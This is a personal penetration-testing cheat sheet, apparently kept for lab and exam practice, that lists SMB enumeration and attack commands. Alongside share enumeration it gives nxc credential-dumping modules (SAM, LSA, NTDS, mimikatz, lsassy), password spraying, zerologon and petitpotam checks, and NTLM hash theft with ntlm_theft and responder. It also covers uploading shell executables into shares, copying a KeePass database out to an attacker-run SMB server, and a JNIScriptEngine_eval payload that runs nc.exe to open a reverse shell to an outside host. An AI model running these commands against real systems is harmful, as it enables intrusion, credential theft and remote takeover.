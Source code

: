 ## SMB Checklist

```bash
enum4linux -a $ip
enum4linux -a -u "$dom\\$user" -p "$pass" $ip
enum4linux -a -M -l -d $ip 2>&1
enum4linux -a -u "" -p "" $ip && enum4linux -a -u "guest" -p "" $ip
enum4linux-ng $ip
nmap $ip -p 139,445 –script smb*
smbclient -L //$ip
smbclient -N -L //$ip
smbclient -L //$ip -N
smbclient -N //$ip/backup
smbclient -L //$ip/myshare -U anonymous
smbclient //$ip/transfer -N
smbclient -U '%' -N \\\\$ip\\share
smbclient -U 'guest' \\\\$ip\\share
smbclient -U null -N \\\\$ip\\share
smbclient -U '%' -N \\\\$ip\\share -m SMB2
smbclient -U '%' -N \\\\$ip\\share -m SMB3
smbclient -L \\$ip -U "" -N -p 12445
smbclient '//$ip/Sarge' -p 12445
proxychains -q smbclient //172.16.173.21/monitoring -U "relia.com\andrea"
smbclient.py -k @braavos.essos.local # -no-pass
smbclient —kerberos //$dc/share

samrdump.py $ip # or $dc / fqdn


cd /opt/ntlm_theft # If writable shares
python ntlm_theft.py -g all -s $myip -f site
sudo responder -I tun0 -d -w
for file in $(ls .); do smbclient -U $user%$pass //$ip/Shared -c "put $file"; done # put all files in local directory in share root
for d in $(cat dirs.txt); do smbclient -U $user%$pass //$ip/homes -c "prompt OFF; recurse ON; cd /$d; lcd /home/kali/practice/hok/theft; mput *" ; wait ; done
for d in $(cat dirs.txt); do smbclient -U $user%$pass //$ip/homes -c "prompt OFF; recurse ON; cd /$d; lcd /home/kali/practice/hok/theft; put shell139.exe"; wait ; done
smbclient.py $dom
smbclient -W WORKGROUP -U % -t 5 -L //$dom -g
smbclient -W WORKGROUP -U % -s /tmp/tmpm24idfat -t 5 -L //192.168.154.117 -g
smbclient.py active.htb/SVC_TGS:GPPstillStandingStrong2k18@$ip
> shares
> use Users

nxc smb $ip -u 'a' -p '' --shares # Guest logon
nxc smb $ip  -u 'user' -p 'pass' -M spider_plus
nxc SMB $ip -u USER -p PASSWORD --spider C\$ --pattern txt
nxc smb $ip -u $user -p $pass -M spider_plus -o DOWNLOAD_FLAG=true MAX_FILE_SIZE=1000000000

rpcclient -N -U "" \\$ip
rpcclient -U “” $ip ///when asked enter empty password
rpcclient -U “” $ip -N
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP

smbmap -H $ip
smbmap -H $ip -u 'a' -p ''
smbmap -H $ip -u '' -p '' -d $dom
smbmap -H $ip -u '' -p '' -r 'IPC$'

smbclient —kerberos //$dc/share
```

#### Look up the SMB versions

Miss this everytime.

#### NXC

```bash
nxc smb $ip
nxc smb $ip -u $user -p $pass --shares
nxc smb $ip -u $user -p $pass -M spider_plus
nxc smb $ip -u $user -p $pass -M spider_plus -o READ_ONLY=False
nxc $ip -u $user -p $pass --sessions
nxc smb $ip -u $user -p $pass --disks
nxc smb $dc -u $user -p $pass --pass-pol
nxc smb $ip -u $user -p $pass
nxc smb $ip -u $user -H $hash
nxc smb $ip -u '' -p ''
nxc smb $ip -u $user user2 user3 -p Summer18
nxc smb $ip -u $user -p $pass1 $pass2 $pass3
nxc smb $ip -u /path/to/users.txt -p Summer18
nxc smb $ip -u $user -p /path/to/$passs.txt
nxc smb $ip -u users.txt -p Summer18 --continue-on-success
nxc smb $ip -u $user -p $pass --local-auth
nxc smb $ip -u $user -p $pass --sam
nxc smb $ip -u $user -p $pass --lsa
nxc smb $dc -u $user -p $pass --ntds #Via RPC
nxc smb $dc -u $user -p $pass --ntds vss #Via VSS
nxc smb $ip -u $user -p $pass -M lsassy
nxc smb $ip -u $user -p $pass -M nanodump
nxc smb $ip -u $user -p $pass -M mimikatz
nxc smb $ip -u $user -p $pass -M procdump
nxc ldap $dc -u $ip -p $pass -M laps -o computer=$ip
nxc $ip -u Administrator -p $pass -x whoami
nxc $ip -u Administrator -p $pass -X '$PSVersionTable'
nxc smb $ip -u $user -p $pass -M slinky -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $ip -u $user -p $pass -M scuffy -o SERVER=$myip -o NAME=nxc.kerberload
nxc smb $dc -u '' -p '' -M zerologon
nxc smb $dc -u '' -p '' -M petitpotam
nxc smb $dc -u $user -p $pass -M nopac
```
#### To recursively download

```bash
> prompt off
> recurse on
> mget *

> prompt off
> recurse on
> dir *

// smbmap
// crackmapexec
```

You can try putting payloads in SMBs as soon as you can, that way you don't have to worry about that method of client-side attacks.

If you can navigate to the web root, maybe wwwroot, you can upload a shell and try to access it through your browser.

#### Mounting SMB Shares

Instead of enumerating Windows shares with smbclient, you can mount shares on your local filesystem and enumerate in a familiar environment.
```bash
sudo mkdir /mnt/data
sudo mount -t cifs //123.123.123.123/Data /mnt/data
sudo mount -t cifs -o sec=krb5,vers=3.0 '//SERVER.DOMAIN.LOCAL/SHARE' /mnt/share
```

Note that Windows likes to store some files in UTF-16LE, while Linux likes UTF8. If you run into this problem, you'll need to convert in order to cat the files.

```bash
cat file | iconv -f UTF-16LE -t utf8
```

#### Notes

Using nxc smb will find you the domain name quickly.

Resource: https://www.netexec.wiki/smb-protocol/enumeration/enumerate-null-sessions

#### Create Samba (SMB) Share on Kali

To start an SMB share on a Kali Linux machine, you typically use Samba, a popular open-source        
software suite that provides file and print services to SMB/CIFS clients. Here's a quick guide:      

1. Install Samba:

```bash   
sudo apt update
sudo apt install samba
```

2. Configure Samba:

Edit the Samba configuration file:

```bash
sudo nano /etc/samba/smb.conf
```

Add your share definition at the end of the file. For example:        

```bash
[MyShare]
path = /path/to/your/share
available = yes
valid users = your_username
read only = no
browsable = yes              
public = yes
writable = yes
```

3. Add a Samba User:

Samba requires a Linux user to map to. If you haven't already, create a Linux user or use an existing one.
Then, add the user to Samba:

```bash
sudo smbpasswd -a your_username
sudo systemctl restart smbd smbd
```

4.  Verify the Share:

From a Windows machine, you can access the share using "\\kali_ip\MyShare".
From a Linux machine, use smbclient to access the share.

```bash
    "//kali_ip/MyShare -U your_username" 
```
Alternative:

Kali:

```bash
impacket-smbserver -smb2support newShare . -username test -password test
```

Windows:

```bash
PS C:\Users\jim\Documents> net use z: \\192.168.45.163\newShare /u:test test
PS C:\Users\jim\Documents> copy Database.kdbx z:\
```

You can also execute commands that lie on your Linux machine from a Windows one through SMB shares:

```bash
sudo smbserver.py -smb2support Share .

CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/nc.exe -e cmd.exe 192.168.45.163 8082").getInputStream()).useDelimiter("\\Z").next()');
#or 
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd.exe /c //192.168.45.163/Share/wicked.exe").getInputStream()).useDelimiter("\\Z").next()');
```